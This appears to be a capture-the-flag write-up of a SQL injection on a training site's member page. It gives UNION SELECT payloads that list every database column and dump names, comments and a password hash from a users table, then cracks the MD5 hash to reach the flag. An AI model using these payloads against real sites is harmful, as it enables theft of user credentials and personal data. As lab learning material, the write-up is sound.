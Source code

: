 # SQL injection on member page

This injection prints all the columns of all tables:

`1=1 UNION SELECT NULL, column_name FROM information_schema.columns`

So, we could see all the columns of the users table -> surname, first_name, commentaire, countersign planet, town...

With this one, it prints the value of the given fields : 

`ID: 1=1 UNION SELECT first_name, countersign FROM users`

So we tried with every fields of the users tables and we found hints to access to the flag

```
ID: 1=1 UNION SELECT commentaire , last_name FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : GetThe
```

the countersign value is 5ff9d0165b4f92b14994e5c685cdce28

Here we go : 5ff9d0165b4f92b14994e5c685cdce28 >> MD5 DCRYPT >> FortyTwo >> lower all char >> fortytwo >> encrypt sh256 = flag
